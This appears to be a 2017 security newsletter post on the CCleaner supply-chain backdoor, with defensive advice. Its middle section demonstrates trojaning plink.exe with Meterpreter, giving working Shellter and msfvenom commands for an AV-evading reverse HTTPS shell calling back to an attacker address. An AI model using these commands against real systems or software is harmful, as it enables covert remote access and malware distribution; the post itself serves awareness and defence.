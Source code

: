 ```yaml
---
layout: email
title: CCleaner trojaned, supply-chain attacks, and an intro to backdooring software
---
```


Big news earlier in the week: popular system cleaning/placebo app CCleaner was backdoored by someone who inserted fairly sophisticated malware without breaking the developer's code-signing certificate. At first glance it looks like they've either compromised the developer's build systems, or it's an inside job.

Cisco Talos made the discovery, and has an excellent writeup on their blog. It's quite long and goes into technical detail, but it's well worth reading in full: 

[**CCleanup: A Vast Number of Machines at Risk**](http://blog.talosintelligence.com/2017/09/avast-distributes-malware.html)

>Supply chain attacks are a very effective way to distribute malicious software into target organizations. This is because with supply chain attacks, the attackers are relying on the trust relationship between a manufacturer or supplier and a customer. This trust relationship is then abused to attack organizations and individuals and may be performed for a number of different reasons. The Nyetya worm that was released into the wild earlier in 2017 showed just how potent these types of attacks can be. Frequently, as with Nyetya, the initial infection vector can remain elusive for quite some time. [...]
>
>Talos recently observed a case where the download servers used by software vendor to distribute a legitimate software package were leveraged to deliver malware to unsuspecting victims. For a period of time, the legitimate signed version of CCleaner 5.33 being distributed by Avast also contained a multi-stage malware payload that rode on top of the installation of CCleaner. CCleaner boasted over 2 billion total downloads by November of 2016 with a growth rate of 5 million additional users per week.

This is a pretty big deal. Avast has egg on their face as a security vendor, and everyone involved will have burned a fair bit of trust with their users (at least the ones who happen to see the news).

The silver lining is that this should serve as yet another wake-up call regarding supply chain security, because CCleaner is probably the highest-profile application to be the victim of a supply-chain attack. [Nyetya/NotPetya](https://www.theregister.co.uk/2017/06/28/petya_notpetya_ransomware/), while it wreaked absolute havok in Ukraine and companies who did business there, wasn't well known by people outside of tech circles - and the application used for the supply-chain attack was only used by people who paid tax in Ukraine.

CCleaner, however, is used worldwide, and often by people who are just technical enough to freak the hell out when they read this sort of story.

### Supply Chain Attacks

It's worth noting just how devastatingly effective this sort of attack can be. Applications like CCleaner are widely used, the installers and update mechanisms of these sorts of applications usually enjoy the full trust of users, and they typically need to be run with elevated privileges.

In many cases this trust is misplaced (poor security practices by developers, updates served over insecure HTTP, etc), but losing this trust would almost be more dangerous than the actual attacks: **the security industry has spent *decades* trying to persuade people to patch their stuff, and a few good attacks like this will completely undermine that message.**

It's not just third-party applications, either. Managed Service Providers (MSPs) are ubiquitous in industry, and often the entire IT department of a given company is outsourced to a provider such as Fujitsu or HP Enterprise. If one of these MSPs is owned, the attacker gets the keys to the kingdom for many other organisations, many of whose employees may not even be aware that they're using a MSP.


### Backdooring Applications - A Demonstration

It's also worth outlining just how easy the technical part of this attack - backdooring the CCleaner installer - was to do. This attack was more sophisticated than what I'm about to demonstrate (they built the malware into the application before compilation), but not by much. The hard part is getting access to the developer's systems, not the infection itself.

Below are a couple of screenshots showing a [VirusTotal](https://www.virustotal.com) scan on a piece of malware I generated and uploaded: a Meterpreter payload. Meterpreter is an open-source Remote Access Trojan (RAT), which is the default payload used by the Metasploit Framework. It's not particularly stealthy, which is kind of the point of this demonstration.

VirusTotal is a website run by Google which scans uploaded files with a number of popular virus checking tools, and provides the results to subscribers.

If none of the above words made sense, don't worry, the details aren't important. What is important is the comparison between the screenshots below:

**Screenshot 1 - raw Meterpreter executable ([VirusTotal link](https://www.virustotal.com/#/file/ca58713ed155898e677de4f3c54f1f0a13c45c0fcc1a757be218a62224ff78a4/detection)):**
![Raw Meterpreter executable](../images/vt-raw-meterpreter.png)

The first screenshot is the basic Meterpreter malware, without any attempt at avoiding detection by antivirus (AV) solutions. It's sitting there naked. This one gets 49/64 detections, with all of the major tools detecting the malware. This is actually worse than I'd expect - only the really really useless AV solutions should miss something this obvious.

​**Screenshot 2 and 3 - plink.exe infected with Meterpreter ([VirusTotal link](https://www.virustotal.com/#/file/a306e457efbffff03c2c9e756acd64f25d207f4bcd3442ffad5ecf0066b53dc4/detection)):**
![plink.exe infected with Meterpreter](../images/vt-plink-1.png)
![plink.exe infected with Meterpreter](../images/vt-plink-2.png)

The second and third screenshots show what happens when I backdoor the popular plink.exe administration tool with the same Meterpreter payload (Plink is the command-line version of Putty, for those familiar with the latter). The result is an executable which works exactly the same way that a normal Putty/Plink user would expect, but in the background it executes the Meterpreter malware and calls back to me.

As you can see from the screenshots, the trojaned plink.exe is significantly more effective at bypassing detection by popular AV solutions, with only 7 of 64 tools detecting it as malicious.

As an aside, Plink/Putty is an excellent target for this sort of supply chain attack because of its ubiquity and demographic - it's used primarily by system administrators, who are likely to be 1) running with administrative privileges and 2) have privileged access to lots of other interesting things (the reason they're using Putty in the first place).

For those who would like to try this at home, I used the free tool [Shellter](https://www.shellterproject.com/) to backdoor the plink.exe executable, with the following command line:

`$ wine /usr/share/shellter/shellter.exe -a --stealth -f plink.exe -p meterp-revhttps.raw`

The meterp-revhttps.raw is a basic Meterpreter payload generated using msfvenom. The .exe in the first screenshot was generated the same way, but with '-f exe' and a less obvious filename (some AV solutions flag on filename, or at least use it as one of their signals for 'badness').

`$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.8.0.80 LPORT=443 -f raw > meterp_revhttps.raw`

The point I'm trying to make here is that this stuff isn't hard - I didn't write Shellter, Meterpreter, or Metasploit, and this demonstration didn't take any crazy technical skill. All I needed was a laptop and an internet connection. This is script-kiddy stuff, and yet every major antivirus solution (with the notable and [topical](http://www.bbc.com/news/world-us-canada-41262049) exception of Kaspersky) misses the backdoored plink.exe.


### Defending against supply chain attacks is *hard*

It's easy to become paranoid when you see something like this, and resolve never to download third-party software again. That's a bit drastic, but there are several simple steps that you can take to reduce your likelihood of becoming the next victim of a supply chain attack:
* Avoid downloading software from small fly-by-night developers, unless you really really need to
* When downloading software, use a trusted source, i.e. the developer's website, not a random link on a forum
* Only download software from websites which use HTTPS, not HTTP (and check the actual download link, not just the page it's served from)
* Ideally, compare the MD5/SHA1/SHA256 hash of the downloaded file with the one provided on the developer's website, as a basic check for malicious modification
* Even more ideally (but too much hassle for most people): compare the hashes provided by the developer to ensure it matches their GPG signature. As an example, Kali provides this and instructions for how to verify the signature (see under "*Download Kali Linux Images Securely*" [here](https://www.kali.org/downloads/)).

Of course, none of the above would have helped in the case of CCleaner - it was compromised by people who knew what they were doing.

At the end of the day, remember your [threat model](https://arstechnica.com/information-technology/2017/07/how-i-learned-to-stop-worrying-mostly-and-love-my-threat-model/): individuals are extremely unlikely to be targeted by a sophisticated threat, unless they happen to have access to something that makes the effort worth it. Just don't expect your antivirus to save you if someone owns the developers of your favourite software.